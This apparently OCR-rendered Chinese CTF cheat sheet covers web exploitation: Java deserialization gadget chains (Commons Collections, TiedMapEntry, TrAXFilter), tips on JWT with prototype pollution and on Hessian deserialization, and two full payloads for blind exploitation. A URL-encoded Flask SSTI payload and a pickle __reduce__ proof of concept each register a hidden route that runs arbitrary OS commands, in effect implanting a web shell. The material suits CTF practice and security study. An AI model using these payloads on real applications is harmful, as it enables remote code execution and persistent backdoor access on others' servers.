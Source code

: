 TiedMapEntry.hashCode -> get (CC3)

TrAXFilter.TrAXFilter -> newTransformer (CC3)

TiedMapEntry.toString -> getValue -> get (CC5)





### jwt

一般jwt直接破解不了的，考虑原型链污染key。一般jwt考题都伴随了原型链污染





### hessian

hessian一般伴随着能触发hashMap.put

hessian打TemplatesImpl不能readObject初始化tfactory，直接SignedObject->TemplatesImpl





### 无回显问题

#### flask SSTI无回显

```http
{{a.__init__.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell3%27,%20%27shell2%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27ls%20/%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```

### pickle不出网无回显

```python
import base64
import pickle

class genpoc(object):
    def __reduce__(self):
        s = """import sys
sys.modules['__main__'].__dict__['app'].debug=False
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell1','shell1',lambda :__import__('os').popen('ls /').read())"""  # 要执行的命令
        return exec, (s,)        # reduce函数必须返回元组或字符串

e = genpoc()
poc = pickle.dumps(e)
basepoc = base64.b64encode(poc)
print(basepoc)
```

